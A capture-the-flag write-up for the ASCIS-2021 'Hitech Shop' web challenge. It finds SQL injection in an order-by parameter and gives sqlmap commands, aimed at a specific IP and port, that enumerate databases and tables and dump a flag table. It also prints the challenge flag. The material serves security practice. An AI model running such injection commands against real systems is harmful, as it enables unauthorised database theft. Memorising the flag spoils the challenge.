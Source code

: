 # ASCIS-2021 Warm-up - 100pts
* Category: Web 
* Name: Hitech Shop
* Level: None
* Description: None

## Solution
* Overview the challenge provided us a search box i think it `Sql Injection`
![Main function](./challenge.PNG) 
*  I try `double quote` and this is server response 
![Main function](./sqli.PNG)
* Run this command in sqlmap `sqlmap -u http://125.235.240.166:20105/index?order=price --time-sec=200 --user-agent=* --dbs --level 5 `i found two databases, but i only attention `vannd` 
![Main function](./sqlmap0.PNG)
* Then i usage command `sqlmap -u http://125.235.240.166:20105/index?order=price --tables -D vannd` for scan `vand` table 
* Finally i found a table contain flag =))))
![Main function](./sqlmap1.PNG)
* Later i scan `flag` table usage this command `sqlmap -u http://125.235.240.166:20105/index?order=price --columns -D vannd -T flag --dump`
![Main function](./sqlmap2.PNG)
* FLAG `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}`
